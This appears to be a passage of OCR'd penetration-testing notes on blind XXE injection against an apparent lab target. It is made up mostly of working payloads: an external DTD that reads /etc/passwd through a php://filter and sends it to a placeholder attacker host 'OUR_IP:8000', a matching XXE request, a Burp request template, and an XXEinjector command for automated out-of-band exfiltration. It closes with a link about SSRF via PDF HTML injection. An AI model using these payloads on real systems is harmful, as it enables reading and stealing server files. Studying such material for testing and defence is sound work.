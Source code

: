 ```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

**XXE**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

## **Automated OOB Exfiltration**

 Copy the HTTP request from Burp and write it to a file for the tool to use:

```
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

### Using XXEInjector

```bash
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxeREQUESTFILE.req --path=/etc/passwd --oob=http --phpfilter
```

# Others

## SSRF To Local File Read Using HTML Injections in pdf files

[SSRF to Local File read through HTML injection in PDF file](https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f)
